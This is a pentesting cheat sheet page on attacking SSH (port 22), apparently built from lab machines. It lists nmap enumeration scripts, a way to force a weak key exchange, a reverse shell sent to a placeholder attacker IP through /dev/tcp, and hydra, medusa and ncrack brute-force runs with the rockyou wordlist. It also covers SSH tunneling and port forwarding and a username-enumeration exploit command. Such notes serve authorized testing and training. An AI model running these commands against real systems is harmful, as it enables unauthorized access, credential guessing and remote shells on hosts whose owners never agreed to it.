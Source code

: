 ```yaml
---
title: "PORT 22 - SSH"
draft: false
images: []
menu:
  docs:
    parent: "Ports"
weight: 22
toc: true
---
```


### SSH ENUM
```
nmap -p22 -n -sV --script ssh2-enum-algos 192.168.10.221
nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=<username>" <target>
```
### CONNECT TO ANOTHER PORT
```
ssh -p 22022 sunny@10.10.10.76
ERROR: Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1

ssh -p 22022 sunny@10.10.10.76 -oKexALgorithms=+diffie-hellman-group1-sha1
```
### REVERSE SHELL
```
ssh -p 22022 sunny@10.10.10.76 -oKexALgorithms=+diffie-hellman-group1-sha1 -t '/bin/bash -i >& /dev/tcp/<ip_attacker>/<port_attacker> 0>&1'
```
### BRUTE FORCE
```
hydra -l user -P /usr/share/wordlists/password/rockyou.txt -e s ssh://10.10.1.111

medusa -h 10.10.1.111 -u user -P /usr/share/wordlists/password/rockyou.txt -e s -M ssh

ncrack --user user -P /usr/share/wordlists/password/rockyou.txt ssh://10.10.1.111
```
#### SSH TUNNELING
```
ssh -L <localPort>:<ipVictimLocal>:<portVictimForService> <user>@<ipVictim> (FROM ATTACKER BOX)
ssh -L 4444:127.0.0.1:5901 charix@10.10.10.84
```
### LOCAL PORT FORWARDING
```
ssh <gateway> -L <local port to listen>:<remote host>:<remote port>
```
### REMOTE PORT FORWARDING
```
ssh <gateway> -R <remote port to bind>:<local host>:<local port>
```
### DINAMIC PORT FORWARDING
```
ssh -D <local proxy port> -p <remote port> <target>
```
### ENUM USERS < 7.7
```
https://github.com/six2dez/ssh_enum_script
https://www.exploit-db.com/exploits/45233
python ssh_user_enum.py --port 2223 --userList /root/Downloads/users.txt IP 2>/dev/null 
```